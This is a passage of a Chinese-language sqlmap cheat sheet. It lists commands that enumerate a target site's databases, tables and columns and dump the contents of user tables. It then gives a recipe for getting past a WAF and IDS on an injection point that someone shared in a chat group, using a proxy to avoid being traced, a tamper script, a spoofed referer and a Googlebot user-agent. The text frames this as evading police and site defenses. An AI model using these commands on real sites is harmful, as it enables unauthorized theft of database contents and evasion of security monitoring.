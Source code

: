 sqlmap.py -u 网址 --dbs -v 0

6)--tables列数据库表

sqlmap.py -u 网址 --tables -D "information_scheam"

-D:指定数据名称

7)--columns 列出表中的列名

sqlmap.py -u 网址 --columns -T "user" -D "mysql" -v 1

-T:指定表名，-D:指定库名

8)--dump列表中指定列的内容

sqlmap.py -u 网址 --dump -T "users" -D "testdb"

-C:可以指定字段

指定列的范围为2到4

sqlmap.py -u 网址 --dump -T "users" -D "testdb" --start 2 --stop 4 -v 0

9)--dumap-all列出所有数据库，所有表内容

sqlmap.py -u 网址 --dump-all -v 0

 

 

sqlmap注入技巧-绕过WAF和IDS

 

刚刚群里有个哥们发了个注入点，有IDS防火墙，请求过于频繁就会封杀IP

有个思路，抛砖引玉，各位大牛请轻拍

sqlmap.py --proxy http://127.0.0.1:8087 -u 你懂得 -v 3 –dbms “MySQL” --tamper “space2morehash.py” --referer“http://www.google.com” --user-agent "Googlebot/2.1 (+http://www.googlebot.com/bot.html）"

参数解释 ：

--proxy //这个是代理的IP，你不用代理不用VPN就不怕被查水表么。。。

-u //这个不懂的面壁去

-v 3 //这个是注入的详细级别1-5

--dbms "MySQL" //指定数据库

--tamper “space2morehash.py” //载入绕过WAF防火墙的脚本

--referer“http://www.google.com” //模拟来源，就是从哪个网页跳转过来的。如果不懂可以谷歌referer

--user-agent "Googlebot/2.1 (+http://www.googlebot.com/bot.html）" 模拟谷歌蜘蛛，一般都不会限制蜘蛛爬网站。

 

更多命令运用：

http://wenku.baidu.com/link?url=eMzrblqUDfXDaosGNkAKnthsT4AA79BEgd5XUnD624yqefBbHaqZk-lVx3pns2M6tApuP7bbNYpPTHGBgiCxdutlUKFGtdmJj80usI2nBuS

 
